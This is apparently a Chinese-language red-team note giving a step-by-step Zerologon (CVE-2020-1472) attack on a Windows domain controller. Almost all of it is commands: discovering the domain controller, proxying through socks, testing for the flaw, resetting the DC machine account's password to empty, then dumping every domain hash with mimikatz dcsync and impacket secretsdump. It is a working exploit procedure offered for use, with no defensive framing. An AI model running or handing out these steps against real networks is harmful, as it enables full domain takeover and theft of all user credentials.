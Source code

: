 #### 获取域控主机名称

```shell
net group "domain controllers" /domain

net view

shell nslookup DC
```

#### 检测是否存在漏洞

> https://github.com/SecuraBV/CVE-2020-1472.git

- 启动socks代理

  ```
  socks 1080 socks5
  ```

- 通过Socks代理进行漏洞检测

  ```bash
  proxychains python3 zerologon_tester.py DC 10.10.10.10
  ```

- 上传漏洞检测程序执行

  ```bash
  zerologon_tester.exe DC 10.10.10.1
  ```

#### 利用漏洞重置域账号

> https://github.com/blackarrowsec/redteam-research

```bash
proxychains python3 CVE-2020-1472.py DC DC$ 10.10.10.10
```

这时候可以看一下用户凭证， DC$ 的 Hash 已被置空

```shell
mimikatz
privilege::debug
lsadump::dcsync /domain:mingy.local /all /csv
```

#### 获取域控用户hash

> https://github.com/fortra/impacket.git

正常情况

```
python3 secretsdump.py 'de1ay.com/DC$@10.10.10.10' -no-pass
```

可能出现的问题

> `ERROR_DS_NAME_ERROR_NOT_UNIQUE：Name translation：Input name mapped to more than one output name`
